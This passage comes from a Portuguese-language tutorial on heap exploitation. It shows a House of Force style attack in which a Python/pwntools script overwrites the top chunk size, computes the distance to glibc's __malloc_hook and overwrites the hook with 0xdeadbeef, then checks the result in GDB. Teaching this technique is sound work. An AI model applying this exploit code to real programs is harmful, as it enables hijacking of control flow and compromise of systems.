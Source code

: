 ![Malloc hook](/img/papers/heap_p1/paper_heap1_67.png)

Como podemos ver na imagem acima, este *qwadword* nulo, representa o *mallok hook*, e como mencionado anteriormente, é um *function pointer*. Quando está nulo, da forma apresentada na imagem, a função `malloc()` funciona de forma normal. Porém, quando não é nulo, a chamada para `malloc()` é redirecionada para o endereço escrito na *mallok hook*.

O comando `top_chunk` mostra que nossa função armazenou o *top chunk* logo acima do *malloc hook*, conforme imagem abaixo.

![Endereço da top chunk](/img/papers/heap_p1/paper_heap1_68.png)

Isso significa que a próxima requisição feita a malloc, irá sobrescrever o *malloc hook*. Podemos comprovar esta teoria, adicionando mais uma linha de código ao script enviando alguns bytes inválidos como `0xdeadbeef` e monitorando o comportamento do programa. Nosso bloco de script fica desta forma:

```py
#===============EXPLOITING================#

# sobrescrevendo o top chunk size field
malloc(24, b"A" * 24 + p64(0xffffffffffffffff))

# calculando distancia entre a __malloc_hook e o top chunk
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)

# solicitando um chunk do tamanho da distancia e preenchendo
malloc(distance, b"A")

# sobrescrevendo a malloc hook
 malloc(24, p64(0xdeadbeef))
#=========================================#
```
Ao executar o programa atralado ao GDB, podemos utilizar o comando `print __malloc_hook` ou simplesmente `p __malloc_hook` para verificar o conteúdo da *malloc hook* conforme imagem abaixo.

![Malloc hook sobrescrito](/img/papers/heap_p1/paper_heap1_69.png)
